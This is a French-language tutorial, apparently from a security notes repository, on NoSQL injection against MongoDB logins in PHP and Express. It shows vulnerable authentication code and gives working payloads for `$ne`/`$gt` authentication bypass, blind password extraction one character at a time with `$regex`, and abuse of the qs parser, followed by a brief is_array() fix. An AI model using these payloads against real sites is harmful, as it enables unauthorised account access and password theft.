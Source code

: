 # Failles web - injection NoSQL

## Description
Les bases NoSQL (Not Only SQL) sont apparues pour remédier aux problèmes de performances des SGBD traditionnels au regard de l'explosion du volume de donnée. Elles permettent également de gérer des données de types très différentes sur une base horizontale. Parmi les plus répandues on trouve d'abords MongoDB souvent utilisé derrière un back NodeJS, CouchDB, DynamoDB ou Oracle NoSQL

D'un point de vue code, 
* en PHP la gestion de la connexion avec la base se fait comme suit (hors robustesse):

    $clt = new MongoClient()
    $db = $clt->database;
    $users = $db->staff;
    $query = array(
        "user" => $_POST['login'],
        "password" => $_POST['password']
    );

    $result = $users->findOne($query); // Recherche de l'utilisateur
    if ($result)
        {
            // Authentifaction success
        }
    }

* en NodeJS, le code d'authentification ressemblerait à ça:

    db.collection(collection).find({"username":username, "password":password}).limit(1) ...
Ce code recherche une correspondance dans la base de donnée à partir de l'entrée utilisateur.

Pour utiliser MongoDB

    $ mongo
    > db.staff.insert({user:"utilisateur",password:"motdepasse");

## Détection
Les failles d'injections NoSQL interviennet en général lorsque nous pouvons passer des données JSON dans la requête et que cette requête peut être manipulée avec les opérateurs de comparaisons NoSQL.

Les opérateurs sont:
* $gt : greater than
* $lt : less than
* $gte : greater or equal
* $lte : less or or equal
* $ne : différent de

Donc par exemple l'objet JSON `[{"$gt":""}]` signifie plus grand que null. Condition toujours vraie.

En alanysant le code on peut également voir que en PHP si le méchanisme ne teste pas si l'entrée utilisateur n'est pas un array alors il existe un risque.

## Intention
Le but de l'injection NoSQL est assez proche de celui d'une injection SQL. Bypasser une authentification ou exfiltrer des données du site principalement.

## Exploitation

### Authentification bypass avec Hackbar
En utilisant l'outil [HackBar](https://addons.mozilla.org/fr/firefox/addon/hackbartool/), nous allons passer en `post data` la chaîne

    login[$ne]=admin&password[$ne]=mdp
L'opérateur différent `$ne` va correspondre (via l'exploitation de l'utilisation de la fonction PHP `array()`):

    login ≠ admin ET password ≠ mdp
Ce qui est vrai et donc bypass l'authentification.

### Authentification bypass avec Burp
En interceptant la requête de login, nous pourrons la modifier dans le module repeater. Dans la requête POST nous interceptons:

    {"username":"admin", "password":"hello"}
Que nous modifions en:

    {"username":"admin", "password":{"$gt":""}}
A la place du mot de passe on passe l'object JSON avec condition toujours vraie qui rend la requête toujours vraie, ce qui nous permet de bypasser l'authentification.

### Exploitation blind
Le problème de l'exploitation précedente et que nous n'avons pas le mot de passe administrateur. Pour l'avoir il va falloir utiliser les regex. Il faut savoir que lorsque nous utilisons des regex :
* `.` représente n'importe quel caractère
* `c{n}` repète n fois le caractère c 

Donc `.{3}` représente toutes les combinaisons de 3 caractères possibles. 

Pour retrouver le mot de passe il va falloir être patient.

* Déterminer le nombre de caractère :

    login[$ne]=admin&password[$regex]=.{1}
On incrémente de un jusqu'à ne pas être authentifié, ce qui indiquera le nombre de caractère. Pour poursuivre l'exemple ici 3 : `mdp`.

* Déterminer le mot de passe caractère par caractère:

    login[$ne]=admin&password[$regex]=a.{2}
On incrémente la lettre jusqu'à ne pas être authentifié, donc `m`. Puis:

    login[$ne]=admin&password[$regex]=ma.{1}
Puis:

    login[$ne]=admin&password[$regex]=mda
On incrémente le `a` jusqu'à ne pas être authentifié avec le `p`. Nous avons ainsi reconstruit le password `mdp`.

Il est intéressant d'automatiser cette tache avec notamment un script python ou Burp, un exemple est dans un des liens de la section.

### Exploiter le module `qs` d'`Express`
Le module `qs` est utilisé par défaut dans Express. Il convertit les paramètres HTTP en objet JSON. Ainsi la requête:

    login[value]=admin&password[value]=mdp
donnera:

    {"login": {"value":"admin"}, "password":{"value":"mdp"}}

Donc la requête:

    login=admin&password[$gt]=
Sera convertie en:

    {"login": "admin", "password":{"$gt":""}}
Ce qui correspond à bypasser l'authentification de l'utilisateur admin. Mais si nous ne connaissons pas d'utilisateur, nous pouvons saisir:

    login[$gt]=admin&password[$gt]=
En cas de succès nous serons connectés avec le premier utilisateur par ordre alphabétique arrivant après admin.

## Prévention
Pour se prémunir de cette faille, sur du code PHP il faut utiliser la fonction `is_array()` dans le test de validité des entrées utilisateurs:

    if (isset($_POST['login']) && isset($_POST['password']) && !is_array($_POST['password']) && !is_array($_POST['login']))

## Liens
https://www.dailysecurity.fr/nosql-injections-classique-blind/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.htmlhttps:/www.owasp.org/index.php/Testing_for_NoSQL_injection